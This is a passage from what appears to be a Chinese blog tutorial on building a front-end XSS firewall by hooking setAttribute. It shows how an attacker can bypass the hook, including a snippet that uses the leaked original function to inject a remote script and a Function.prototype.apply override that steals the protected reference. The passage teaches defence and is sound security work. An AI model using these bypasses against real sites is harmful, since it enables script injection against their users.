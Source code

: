 ## 钩子泄露

看起来似乎毫无难度，而且也没什么不对的地方，这不就可以了吗？

如果最终就用这代码，那也太挫了。我们把原始接口都暴露在全局变量里了，攻击者只要拿了这个变量，即可绕过我们的检测代码：

```js
var el = document.createElement('script');

// 直接调用原始接口
raw_fn.call(el, 'SRC', 'http://www.etherdream.com/xss/alert.js');
document.body.appendChild(el);
```
[Run](http://jsfiddle.net/zjcqoo/pq6y9/)


靠，这不算，这只是我们测试而已。现实中谁会放在全局变量里呢，这年头不套一个闭包的脚本都不好意思拿出来。

好吧，我还是放闭包里，这总安全了吧。看你怎么隔空取物，从我闭包里偷出来。

```js
(function() {
	// 保存上级接口
	var raw_fn = Element.prototype.setAttribute;
	...
})();
```

不过，真要偷出来，那绝对是没问题的！

这个变量唯一用到的地方就是：

```js
raw_fn.apply(this, arguments)
```

这可不是一个原子操作，而是调用了 Function.prototype.apply 这个全局函数。神马。。。这。是真的，不信你可以试试！

不用说，你也懂了。我还是说完吧：我们可以重写 apply，然后随便给某个元素 setAttribute 下，就可以窃听到钩子传过来的 raw_fn 了。

```js
Function.prototype.apply = function() {
	console.log('哈哈，得到原始接口了:', this);
};
document.body.setAttribute('a', 1);
```
[Run](http://jsfiddle.net/zjcqoo/P55dj/)

![](http://fex.baidu.com/img/xss-frontend-firewall-3/func_leak.png)

这也太贱了吧，不带这样玩的。可人家就能用这招绕过你，又怎样。

你会想，干脆把 Function.prototype.apply 也提前保存起来得了。然后一番折腾，你会发现代码变成 apply.apply.apply.apply...

毕竟，apply 和 call 已是最底层了，没法再 call 自己了。

这可怎么办。显然不能再用 apply 或 call 了，但不用它们没法把 this 变量传进去啊。回想下，有哪些方法可以控制 this 的：

* obj.method()
